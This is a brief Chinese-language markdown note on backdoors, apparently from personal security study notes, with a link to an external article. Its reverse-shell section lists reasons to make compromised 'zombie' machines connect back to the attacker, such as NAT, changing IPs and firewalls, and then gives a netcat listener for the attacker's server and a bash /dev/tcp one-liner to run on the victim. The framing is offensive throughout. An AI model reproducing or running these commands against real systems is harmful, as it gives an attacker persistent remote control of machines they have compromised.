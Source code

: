 ```yaml
---
created_date: 2020-12-06
---
```


[TOC]

## 后门

- 参考\
  https://xz.aliyun.com/t/2549

### 反弹shell

1. 意义
   1. 局域网内肉鸡无法被连接。
   2. 肉鸡ip会动态改变，不能持续控制。
   3. 防火墙等限制，肉鸡只能发送请求，不能接收请求。
   4. 肉鸡网络环境未知，主动连接，省事。
2. 实现

```bash
# 我方服务器执行
nc -lvp 2333
# 肉鸡上执行
IP=127.0.0.1
bash -i >& /dev/tcp/${IP}/2333 0>&1
```

